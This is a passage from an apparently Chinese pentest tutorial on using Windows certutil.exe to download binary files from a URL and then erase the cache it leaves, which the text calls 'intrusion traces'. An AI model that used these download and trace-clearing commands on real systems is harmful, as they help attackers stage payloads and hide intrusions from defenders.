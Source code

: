 其实这条命令同时也在当前目录写入了一个文件：
![title](https://leanote.com/api/file/getImage?fileId=5da1982bab64411aeb000a9c)

**(4) 支持保存二进制文件**

语法：

``` shell
certutil.exe -urlcache -split -f 二进制文件url
```

payload：

![title](https://leanote.com/api/file/getImage?fileId=5da18dd8ab64411aeb000a21)

效果:

![title](https://leanote.com/api/file/getImage?fileId=5da18e2eab64411ce40009ec)


**清除痕迹**：
certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹。

查看所有缓存记录:
``` shell
certutil.exe -urlcache *
```

![title](https://leanote.com/api/file/getImage?fileId=5da18fe3ab64411ce40009f6)

我就试下能不能全删了缓存记录就成功了：
``` shell
certutil.exe -urlcache * delete
```

![title](https://leanote.com/api/file/getImage?fileId=5da1908fab64411aeb000a4a)

也不知道缓存项目都删了，会有什么后果呢。(´-ω-`)

标准做法是：

每次下载后，需要马上执行如下：
``` shell
certutil.exe -urlcache -split -f 文件url delete
```

也就是下载语句加一个`delete`关键字。
![title](https://leanote.com/api/file/getImage?fileId=5da1912bab64411aeb000a50)

![title](https://leanote.com/api/file/getImage?fileId=5da193faab64411aeb000a6a)
![title](https://leanote.com/api/file/getImage?fileId=5da1946cab64411ce4000a19)
l
或者也可以直接删除缓存目录对应文件。
默认在缓存目录位置： %USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content保存下载的文件副本。
直接删除：

